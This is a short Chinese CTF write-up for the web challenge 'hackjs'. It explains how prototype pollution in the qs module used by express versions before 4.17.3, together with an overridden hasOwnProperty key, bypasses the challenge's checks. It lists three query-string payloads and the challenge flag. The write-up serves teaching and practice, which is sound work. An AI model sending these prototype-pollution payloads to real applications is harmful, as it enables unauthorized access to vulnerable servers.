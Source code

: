 # Web - hackjs

**考察点：**qs数组原型链污染,hasOwnProperty覆盖

**预估难度：**简单

**解题思路：**

* 审计代码可知，题目限制了venom的key小于3个并且welcome需要等于159753，且text为flag。因此需要venom[text]=flag&venom[welcome]=159753。
* 现在需要程序抛出异常进入异常块，覆盖hasOwnProperty为任意字符即可抛出异常：venom[text]=flag&venom[welcome]=159753&venom[hasOwnPropert]=1。
* 此时key为3，观察express版本为4.17.2，express@(-∞, 4.17.3)中依赖的qs模块存在数组原型污染漏洞。因此我们随便选取一个参数污染数组原型即可得到flag。

Payload：
```
1. venom[__proto__][text]=flag&venom[welcome]=159753&venom[hasOwnProperty]=1
2. venom[__proto__][welcome]=159753&venom[text]=flag&venom[hasOwnProperty]=1
3. venom[__proto__][hasOwnProperty]=1&venom[welcome]=159753&venom[text]=flag
```
参考链接：
1. [记ByteCTF中的Node题 ](https://www.cnblogs.com/WindrunnerMax/p/15686924.html)
2. [第一届 “东软杯”网络安全CTF竞赛-官方WriteUp](https://xz.aliyun.com/t/10642)
3. [[Fix] parse: ignore __proto__ keys](https://github.com/ljharb/qs/commit/ba24e74dd17931f825adb52f5633e48293b584e1)

	*flag:**	flag{just_wa3m_up_but_o1d_qs_1s_vulnerable!!}

**作者：**Squirt1e